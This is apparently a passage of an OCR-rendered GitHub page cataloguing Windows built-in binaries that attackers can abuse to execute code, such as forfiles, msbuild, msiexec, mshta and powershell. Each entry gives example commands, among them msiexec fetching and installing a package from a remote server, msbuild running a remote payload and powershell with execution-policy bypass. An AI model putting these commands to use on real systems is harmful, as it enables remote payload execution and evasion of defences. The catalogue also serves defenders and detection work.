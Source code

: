     -   Example: cscript.exe test.vbs (where test.vbs contains WScript.Echo
        "test")

##### forfiles.exe

-   Description: Forfiles supports the ability to execute commands and seems to
    be equivalent to cmd.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### msbuild.exe

-   Description - Microsoft's build utility where you can supply an inline build
    task to execute code
    (<https://msdn.microsoft.com/en-us/library/dd722601.aspx>)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\msbuild.exe \server\payload
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### msiexec.exe

-   Description - The Windows installer typically used to install new software
    or patches. It be used to download and execute a remote payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: msiexec /i [http://server/package.msi](http://server/package.msi)
  Example: msiexec /y payload.dll
  Example: msiexec /z payload.dll
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### mshta.exe

-   Description: MSHTA can be used to execute HTA files (containing scripts) or
    directly execute VBScript/JScript from the command line.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: mshta bad.hta
  Example: mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")
  Example: mshta javascript:alert('test');
  Example HTA: <html><HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no" SYSMENU="no" CAPTION="no" /><script language="VBScript">  Set objShell = CreateObject("Wscript.Shell")  objShell.Run "calc.exe"  Close  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1.  

##### powershell.exe

-   Description: The most well known and most useful attacker utility.
    Powershell can be operated in console mode, with commands provided on the
    command line or through passing a ps1 file containing commands.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: powershell -c calc
  Example: powershell -exec bypass -File test.ps1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
